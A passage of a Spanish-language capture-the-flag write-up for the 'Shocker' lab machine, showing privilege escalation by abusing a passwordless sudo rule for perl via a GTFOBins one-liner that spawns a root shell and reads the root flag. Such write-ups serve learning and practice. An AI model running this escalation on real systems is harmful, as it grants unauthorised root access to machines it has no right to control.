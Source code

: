 ```bash
shelly@Shocker:/usr/lib/cgi-bin$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

En la página de `GTFOBins` podemos encontrar diferentes maneras de cómo abusar de privilegios de binarios con `sudoers`. Nos encontramos la respectiva entrada del binario `perl`.

{% embed url="https://gtfobins.github.io/gtfobins/perl/#sudo" %}

También, podemos realizar la misma consulta a través de la siguiente herramienta de `searchbins` que realiza la consulta de `GTFOBins` desde la misma terminal.

{% embed url="https://github.com/r1vs3c/searchbins" %}

```bash
❯ searchbins -b perl -f sudo

[+] Binary: perl

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/perl/#sudo]

	| sudo perl -e 'exec "/bin/sh";'
```

Realizamos la ejecución del comando que se nos proporciona en `GTFOBins` y finalmente logramos abusar del binario `/usr/bin/perl` como `sudo` y logramos el acceso a `root`. Finalmente, comprobamos la flag de **root.txt**.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/bash";'  
root@Shocker:/usr/lib/cgi-bin# cat /root/root.txt 
47fd73a775177*******************
```
